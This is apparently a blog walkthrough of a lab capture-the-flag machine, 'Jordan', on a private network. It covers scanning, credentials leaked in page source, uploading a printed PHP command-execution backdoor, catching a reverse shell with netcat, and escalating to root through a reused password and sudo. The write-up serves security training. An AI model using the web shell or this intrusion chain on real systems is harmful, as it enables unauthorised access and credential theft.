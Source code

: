 ```yaml
---
layout: post
title: Jordan
date: 26-05-2025
categories: [medium]
tags: [basic]
image: "https://images.soleretriever.com/blog/a814e02f7fdc6a5ce6a002cc734d1b2b4e9a7611-1070x760.png?quality=90&fit=clip&auto=format&width=1200"
---
```

>Hi am cyberkiddle how are you doing, ithink your going well and every thing is cool is that right?
> If not am sorry for that you will be fine.
{: .prompt-danger }



>Welcome to the next space and we need to find the price of jordan.
> This time we need to dive into hacking with more skills and not walkthroughs try first if you thing you have some thing to get help you can try to come back.
{: .prompt-danger }



![Screenshot From 2025-05-25 11-03-13](https://github.com/user-attachments/assets/ca934608-f16f-4d92-a12a-ad5c0eec0e8d)


## Scanning
```
~/Desktop/redteam/hack/jordan » nmap -sC -sV 192.168.56.106                                       cyberkid@cyberkiddle
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 19:12 EAT
Nmap scan report for 192.168.56.106
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
|   256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_  256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:78:27:C1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
-----------------------------------------------------------------------------------------------------------------------


```
## Enumarting 
Found dumped credential in the website, from the website source codes.

```
<html>
<head>
<title>
Fake admin area :)
</title>
<body>
<center><h1>The admin area not work :) </h1></center>
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
</body>
</html>



```
## Payload upload 
This is the crutial part that will give me the access to the target
![Screenshot From 2025-05-26 19-36-36](https://github.com/user-attachments/assets/533be8e1-169a-4153-b369-41ff7861456c)


```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->


```
By this we can now get the reverse shell from the payload of python from reverseshell generator. using burp suite and get the access from there.


## intial access
>After i crafted the payload to get into the system
{: .prompt-danger }



![Screenshot From 2025-05-26 19-58-12](https://github.com/user-attachments/assets/c7154137-02e7-4dc7-a0ce-9655f5d4418d)

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/jordan » nc -lnvp 1234                                                 1 ↵ cyberkid@cyberkiddle
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.106] 54410
$ whoami
whoami
www-data
$ /bin/bash -i
/bin/bash -i
www-data@Jordaninfosec-CTF01:/var/www/html/uploaded_files$ clear

```
## Credetials i found in using linenum
>here we need to find the valid user credentials for the user in the system and try to use them
{: .prompt-danger }


you can use automation or any other way.

```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt
<1:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt                         
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/tmp/lilly$ 



```
## Lateral movement.
I found the credential file named in the list and i think it was so closer to be root write? lets see.

```
 Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/etc/mysql/conf.d/credentials.txt
/etc/pam.d/common-password
/etc/ssl/private/ssl-cert-snakeoil.key
/usr/lib/git-core/git-credential
/usr/lib/git-core/git-credential-cache
/usr/lib/git-core/git-credential-cache--daemon
/usr/lib/git-core/git-credential-store
  #)There are more creds/passwds files in the previous parent folder


```

## Gues whoami
Finally i got the right credentials lets move more to root.
```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/tmp/lilly$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/tmp/lilly$ 

```
lets try to see if we can have lateral movemments and try to hack more

## Am Root are your happy
```
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo su
sudo su
root@Jordaninfosec-CTF01:/tmp/lilly# whoami 
whoami
root
root@Jordaninfosec-CTF01:/tmp/lilly# 



```
## Lets hack database
```
root@Jordaninfosec-CTF01:/var/www/html# cat chec	
cat check_login.php 
<?php
session_start();
$username = $_POST["user_name"];
$password = $_POST["pass_word"];
if($username ==="admin" && $password==="3v1l_H@ck3r")
{
	$_SESSION['loggedin']=true;
	header("Location: index.php");	
}
else
{
	echo "<br/><h1 style='color:red'><center>Error in username/password</center></h1>";
}
?>
root@Jordaninfosec-CTF01:/var/www/html# 

```

## Task what was the mysql login creds?
 Am glad we made it it was so simple and easy to do write how is your progress send me via email in about parten and i will see.
![Screenshot From 2025-05-26 20-54-37](https://github.com/user-attachments/assets/aae66087-6672-4a3a-979f-d0d632fb2d98)

>I think you have enjoyed and every thing gopes well thank you much.
{: .prompt-danger }



